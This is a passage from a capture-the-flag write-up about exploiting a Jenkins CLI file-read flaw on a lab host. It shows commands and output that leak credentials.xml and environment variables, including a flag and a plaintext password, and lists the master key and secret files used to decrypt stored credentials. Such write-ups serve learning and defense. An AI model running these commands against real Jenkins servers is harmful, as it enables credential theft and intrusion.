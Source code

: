 After researching what could be done with it, I came across `https://github.com/hoto/jenkins-credentials-decryptor`, a tool that uses Jenkins’ internal secrets to decrypt stored credentials.

To fully decrypt the credentials, the following files are required:

```bash
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```

Unfortunately, due to permission restrictions as an unauthenticated user, and as observed in `jenkins_file_read_results.txt` I was only able to leak 2–3 lines at a time using commands like `help` and `who-am-i`

For example I was mainly getting XML headers and the start of the files as seen below.

```bash
angus@aLT:~/Documents/GitHub/ctf/jenkins$ java -jar jenkins-cli.jar -s http://glitch-two.3f30795e908a7c17.ctf.land:7756 help @/var/jenkins_home/credentials.xml

ERROR: Too many arguments: <com.cloudbees.plugins.credentials.SystemCredentialsProvider plugin="credentials@1380.va_435002fa_924">
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: <?xml version='1.1' encoding='UTF-8'?>)
angus@aLT:~/Documents/GitHub/ctf/jenkins$ java -jar jenkins-cli.jar -s http://glitch-two.3f30795e908a7c17.ctf.land:7756 install-plugin @/var/jenkins_home/credentials.xml

ERROR: anonymous is missing the Overall/Read permission
```


### Authenticated Command Mapping

At this point, I was curious about which Jenkins CLI commands were accessible to anonymous users.

I created a script called findAuthCommands.py to test command availability with and without authentication. This helped me confirm that only `help` and `who-am-i` were viable anonymously. Then I validated some known paths with `pathEnum.py`:

- etc_passwd.tx
- var_jenkins_home_config.xml.txt
- var_jenkins_home_credentials.xml.txt
- var_jenkins_home_secrets_hudson.util.Secret.txt

In hindsight, this was a bit redundant since it mostly confirmed what I'd already discovered earlier in the process. 

### Leaking enviroment variables
Eventually I moved onto this command looking at `/proc/self/environ` which usually holds enviroment variables.

```bash
angus@aLT:~/Documents/GitHub/ctf/jenkins$ java -jar jenkins-cli.jar -s http://glitch-two.3f30795e908a7c17.ctf.land:7756 who-am-i "@/proc/self/environ"

ERROR: No argument is allowed: HOSTNAME=b7b8172c14b7JENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimentalJAVA_HOME=/opt/java/openjdkJENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementalsFLAG1=Flag1.LeftMyFlagShowing.@>COPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.logJENKINS_PASSWORD=cicdismyThangPWD=/JENKINS_SLAVE_AGENT_PORT=50000JENKINS_VERSION=2.441HOME=/var/jenkins_homeLANG=C.UTF-8JENKINS_URL=localhostJENKINS_UC=https://updates.jenkins.ioJENKINS_ID=developerSHLVL=0JENKINS_HOME=/var/jenkins_homeREF=/usr/share/jenkins/refPATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```
